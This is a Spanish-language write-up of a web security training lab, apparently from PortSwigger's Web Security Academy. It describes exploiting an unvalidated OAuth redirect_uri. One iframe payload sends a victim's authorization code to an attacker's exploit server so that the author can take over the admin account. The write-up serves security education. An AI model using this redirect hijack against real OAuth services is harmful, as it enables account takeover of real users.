










## LAB



Al realizar el proceso de inicio de sesión, vemos que en este se tiene un login y posteriormente vincular nuestra cuanta con una red social.





Luego observamos que se tiene la cuenta vinculada.



En el proceso de solicitudes al servidor, observamos que se tiene dos solicitudes en curiosas. Estas solicitudes son las que vinculan la cuenta con la red social, la primera es la que realiza una solicitud y redirige al `oauth` obteniendo un código para luego proceder a vincular la cuenta.





Al cambiar el valor de `redirect_uri` por nuestro exploit server, vemos que redirige a al servidor y con un código.



Por lo que podemos usar nuestro exploit server para enviarle a la victima un `iframe` con la primera solicitud para obtener el código y que este sea enviado a nuestro servidor.

```c
<iframe src="https://oauth-0aa200cc0435d3818321f9110298005f.oauth-server.net/auth?client_id=jd367reelxzcte7rj61fo&redirect_uri=https://exploit-0aa6003b04e2d3d283d6faa101220014.exploit-server.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>
```



Al revisar los logs, veremos que se tiene un código para poder vincular la cuenta del usuario administrador con al nuestra.



Luego de vincular veremos la pestaña para el apartado del cual podremos eliminar al usuario Carlos.